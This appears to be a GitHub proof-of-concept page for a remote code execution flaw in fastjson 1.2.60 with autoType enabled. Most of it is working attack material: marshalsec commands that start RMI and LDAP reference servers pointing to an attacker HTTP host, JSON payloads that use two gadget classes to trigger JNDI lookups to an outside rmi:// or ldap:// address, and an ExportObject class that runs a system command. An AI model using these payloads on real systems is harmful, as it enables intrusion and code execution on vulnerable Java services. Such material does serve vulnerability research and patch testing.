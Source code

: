 # fastjson-1.2.60-rce
autoType enable


![](./1.2.60.png)


## RMI RefServer
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.2.18:8000/#ExportObject`

## LDAP RefServer
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.2.18:8000/#ExportObject`


### FastJsonTest.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonTest {
    public static void main(String[] args){

        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonStr1 ="{\"@type\":\"oracle.jdbc.connector.OracleManagedConnectionFactory\",\"xaDataSourceName\":\"rmi://10.10.20.166:1099/ExportObject\"}";
        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
        JSONObject json = JSON.parseObject(jsonStr2);
        json.toJSONString();
    }
}
```

### ExportObject.java
```
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class ExportObject {
    public ExportObject() throws Exception {
        Process proc = Runtime.getRuntime().exec("calc");
        BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        StringBuffer sb = new StringBuffer();

        String line;
        while((line = br.readLine()) != null) {
            sb.append(line).append("\n");
        }

        String result = sb.toString();
        Exception e = new Exception(result);
        throw e;
    }

    public static void main(String[] args) throws Exception {
    }
}

```

## 参考链接：

https://mmbiz.qpic.cn/mmbiz_png/f2yQgjGph7MnkCl1YEUxd6Q8mDjQkicxL7JuOFjxlOjWwQtWyYQzjE5yYkSuJVwic9qdnmRYXTtEJqxM3Efc1lYw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1

https://www.freebuf.com/articles/web/213327.html

https://mp.weixin.qq.com/s?__biz=MzUyNTk1NDQ3Ng==&mid=2247484350&idx=1&sn=de51dd5707a2ff5464423407195e9177&scene=21#wechat_redirect
